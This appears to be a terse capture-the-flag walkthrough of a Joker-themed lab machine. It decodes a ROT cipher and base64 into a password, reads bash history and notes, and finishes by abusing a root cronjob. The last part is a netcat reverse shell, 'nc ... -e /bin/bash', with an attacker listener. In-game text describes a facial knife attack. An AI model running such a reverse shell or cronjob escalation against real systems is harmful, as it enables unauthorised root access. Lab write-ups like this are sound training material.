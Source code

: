$ /var/www/html
-  cat how\_to\.txt

Hi Rob,
Forgive My Laughter\. I Have A Condition

Take care


\_\_\_\_\_\_\_\_     \_\_\_\_      \_\_   \_\_\_    \_\_\_\_\_   \_\_\_\_\_\_    
\(\_\_\_  \_\_\_\)   / \_\_ \\    \(\) \) / \_\_\)  / \_\_\_/  \(   \_\_ \\   
\) \)     / /  \\ \\   \( \(\_/ /    \( \(\_\_     \) \(\_\_\) \)  
\( \(     \( \(\)  \(\) \)  \(\)   \(      \) \_\_\)   \(    \_\_/   
\_\_  \) \)    \( \(\)  \(\) \)  \(\) /\\ \\    \( \(       \) \\ \\  \_  
\( \(\_/ /      \\ \\\_\_/ /   \( \(  \\ \\    \\ \\\_\_\_  \( \( \\ \\\_\)\) 
\\\_\_\_/        \\\_\_\_\_/    \(\)\_\)  \\\_\\    \\\_\_\_\_\\  \)\_\) \\\_\_/  

@rob
cat Abnerineedyourhelp 
Gdkkn Cdzq, Zqsgtq rteedqr eqnl rdudqd ldmszk hkkmdrr ats vd rdd khsskd rxlozsgx enq ghr bnmchshnm\. Sghr qdkzsdr sn ghr eddkhmf zants adhmf hfmnqdc\. Xnt bzm ehmc zm dmsqx hm ghr intqmzk qdzcr, "Sgd vnqrs ozqs ne gzuhmf z ldmszk hkkmdrr hr odnokd dwodbs xnt sn adgzud zr he xnt cnm's\."
Mnv H mddc xntq gdko Zamdq, trd sghr ozrrvnqc, xnt vhkk ehmc sgd qhfgs vzx sn rnkud sgd dmhflz\. RSLyzF9vYSj5aWjvYFUgcFfvLCAsXVskbyP0aV9xYSgiYV50byZvcFggaiAsdSArzVYkLZ==

dcode\.fr \- ROT cypher
Hello Dear, Arthur suffers from severe mental illness but we see little sympathy for his condition\. This relates to his feeling about being ignored\. You can find an entry in his journal reads, "The worst part of having a mental illness is people expect you to behave as if you don't\."
Now I need your help Abner, use this password, you will find the right way to solve the enigma\.
STMzaG9wZTk5bXkwZGVhdGgwMDBtYWtlczQ0bW9yZThjZW50czAwdGhhbjBteTBsaWZlMA==

-  base64
I33hope99my0death000makes44more8cents00than0my0life0

@abner
cat info\.txt 
A Glasgow smile is a wound caused by making a cut from the corners of a victim's mouth up to the ears, leaving a scar in the shape of a smile\.
The act is usually performed with a utility knife or a piece of broken glass, leaving a scar which causes the victim to appear to be smiling broadly\.
The practice is said to have originated in Glasgow, Scotland in the 1920s and 30s\. The attack became popular with English street gangs \(especially among the Chelsea Headhunters, a London\-based hooligan firm, among whom it is known as a "Chelsea grin" or "Chelsea smile"\)\.

abner@glasgowsmile:~$ cat \.bash\_his
cat \.bash\_history 
whoami
systemctl reboot
fuck
su penguin
mysql \-u root \-p
exit
cd \.bash/
ls
unzip \.dear\_penguins\.zip
cat dear\_penguins
rm dear\_penguins
exit
ls
cd /home/abner/
ls
exit

-  found file dear\_penguins\.zip
-  unzip:I33hope99my0death000makes44more8cents00than0my0life0

cat dear\_penguins 
My dear penguins, we stand on a great threshold\! It's okay to be scared; many of you won't be coming back\. Thanks to Batman, the time has come to punish all of God's children\! First, second, third and fourth\-born\! Why be biased?\! Male and female\! Hell, the sexes are equal, with their erogenous zones BLOWN SKY\-HIGH\!\!\! FORWAAAAAAAAAAAAAARD MARCH\!\!\! THE LIBERATION OF GOTHAM HAS BEGUN\!\!\!\!\!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz

@penguin
cat PeopleAreStartingToNotice\.txt 
Hey Penguin,                                                                                                                                                                                                                                
I'm writing software, I can't make it work because of a permissions issue\. It only runs with root permissions\. When it's complete I'll copy it to this folder\.                                                                              

Joker                                                                                                                                                                                                                                       

ISNT IT BEAUTIFUL?

\.trash\_old is a cronjob

victim -  nc 192\.168\.0\.63 5555 \-e /bin/bash
attacker -  nc \-nlvp 5555

# root
